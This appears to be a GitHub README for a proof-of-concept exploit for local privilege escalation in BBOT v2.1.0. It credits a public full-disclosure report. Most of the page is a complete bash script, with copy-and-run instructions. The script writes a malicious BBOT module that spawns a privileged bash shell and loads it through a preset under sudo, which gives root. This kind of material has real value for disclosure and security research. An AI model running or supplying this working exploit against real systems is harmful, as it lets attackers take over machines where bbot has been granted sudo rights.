 # BBOT v2.1.0 - Local Privilege Escalation

<br><br>
<div align="center">
  <img width="200" src="https://www.blacklanternsecurity.com/bbot/Stable/bbot.png" alt="bbot-logo"> <br><br>
  <p>BBOT v2.1.0<br>
  <b>Local Privilege Escalation to Root</b> <br>
  PoC Exploit<br>
  </p>
<img src="https://www.zyenra.com/assets/img/bbot-poc-exploit-2.png">
</div>


---

### Introduction

`BBOT` version 2.1.0 allows local root privilege escalation when `sudo` rights are granted to `/usr/local/bin/bbot`.  
By injecting a malicious module and referencing it through a preset, arbitrary Python code runs as root during module loading.

This bypasses all sandboxing due to `bbot` trusting unvalidated local modules and loading them with root permissions.

---

### Usage

```bash
git clone https://github.com/rvizx/bbot-privesc
cd bbot-privesc
chmod +x exploit.sh

# usage
./exploit.sh
```


---

<div align="center"> <br> <b>OR</b> <br><br> </div>


---

Copy the following exploit code
```bash
#!/usr/bin/env bash

# Title  : BBOT v2.1.0 - Local Privilege Escalation - PoC Exploit
# Author : Ravindu Wickramasinghe (aka rvz)
# Usage  : usage: ./exploit.sh

#!/bin/bash
set -e
D="/tmp/.x"; M="x.py"; P="p.yml"; N="x"

trap 'rm -rf "$D"' EXIT

mkdir -p "$D"

cat > "$D/$M" <<EOF
from bbot.modules.base import BaseModule
import pty
class $N(BaseModule):
 async def setup(self): pty.spawn(["/bin/bash", "-p"])
EOF

cat > "$D/$P" <<EOF
description: x
module_dirs: [$D]
modules: [$N]
EOF

sudo /usr/local/bin/bbot -t x -p "$D/$P" --event-types ROOT || true
```

Save copied content to `exploit.sh` and execute
```
chmod +X exploit.sh
./exploit.sh
```


<be>
<b>Note:</b> This exploit requires `NOPASSWD` sudo access to `/usr/local/bin/bbot`.

---

### Credits

Original Vulnerability Disclosure [Link](https://seclists.org/fulldisclosure/2025/Apr/19) - Discovered by Housma Mardini <br>
PoC Exploit at [Link](https://github.com/rvizx/bbot-privesc) - Ravindu Wickramasinghe AKA rvz
